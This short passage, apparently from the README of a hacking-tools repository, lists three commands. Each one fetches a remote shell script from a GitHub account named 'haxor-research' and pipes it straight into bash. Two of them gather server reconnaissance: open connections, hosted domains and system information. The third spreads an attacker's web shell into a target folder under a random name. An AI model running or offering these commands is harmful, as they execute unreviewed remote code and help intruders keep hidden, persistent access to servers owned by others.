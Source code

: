 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/what_server.sh | bash
```
Spreading your webshell to the destination folder using a random name
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/dor.sh | bash
```
